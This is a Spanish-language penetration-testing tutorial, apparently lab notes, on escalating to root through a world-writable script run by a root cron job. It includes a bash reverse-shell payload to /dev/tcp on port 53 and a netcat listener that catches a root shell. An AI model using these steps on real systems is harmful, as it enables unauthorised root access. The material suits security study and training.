 <p>Los Cron jobs son programas o scripts que los usuarios pueden programar para para que se ejecuten en momentos o intervalos específicos.
Los Cron jobs se ejecutan con el nivel de seguridad del usuario que los posee que los posee.
Por defecto, los cron jobs se ejecutan utilizando el shell /bin/sh, con
variables de entorno limitadas. </p>

<p>Los archivos de tabla de cron (crontabs) almacenan la configuración de trabajos de cron.
<p>Los crontabs de usuario suelen estar ubicados en /var/spool/cron/ o
/var/spool/cron/crontabs/ .</p>
<p> El crontab de todo el sistema se encuentra en /etc/crontab.</p>

## File Permissions

Una mala configuración de los permisos de los archivos asociados a los trabajos cron puede llevar a una fácil escalada de privilegios.
Si podemos escribir en un programa o script que se ejecuta como parte de un trabajo cron, podemos reemplazarlo con nuestro propio código.

## Privilege Escalation

1- Ver el contenido del crontab de todo el sistema:

```
$ cat /etc/crontab
...
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

2- Localice el archivo overwrite.sh en el servidor:

```
$ locate overwrite.sh
/usr/local/bin/overwrite.sh
```

3- Check the file’s permissions:

```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 40 May 13 2017 /usr/local/bin/overwrite.sh
```

4- Reemplace el contenido del archivo overwrite.sh con lo siguiente:

```
#!/bin/bash
bash -i >& /dev/tcp/192.168.1.26/53 0>&1
```

5- Ejecute un listener de netcat en su máquina local y espere a que
que se ejecute la tarea cron. Un shell inverso ejecutado como el usuario debería ser capturado:

```
# nc –nvlp 53
Listening on [any] 53 ...
Connect to [192.168.1.26] from (UNKNOWN) [192.168.1.25] 47352
bash: no job control in this shell
root@debian:~# id
id
uid=0(root) gid=0(root) groups=0(root)

```

## PATH Environment Variable
